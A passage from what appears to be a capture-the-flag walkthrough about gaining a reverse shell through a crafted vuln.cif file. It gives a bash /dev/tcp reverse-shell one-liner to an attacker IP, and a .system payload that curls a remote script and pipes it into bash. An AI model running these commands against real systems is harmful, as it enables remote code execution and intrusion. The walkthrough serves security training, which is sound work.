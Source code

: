 ![Python Reverse Shell Result](./images/9.png)

**Result**: Reverse shell successful ✅

Try using better shell:
On the connected reverse shell, enter the following command **while** set up another listener to the same port:
```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'
```
Result:\
![Better Shell](./images/10.png)

### Attempt 5.1: Using Bash for Reverse Shell
**Note**: We need to establish the successful Python Reverse Shell to help troubleshooting the Bash problem\
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk 2>/dev/shm/error | bash 2>dev/shm/error")
```
Modify the payload in `atk` (Save the previous payload used in Python to `atk.py` so it can be used in case connection is lost for Python Reverse Shell):
```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1234 0>&1'
```
The objective of this command is to redirect error messages to the file called `error`.
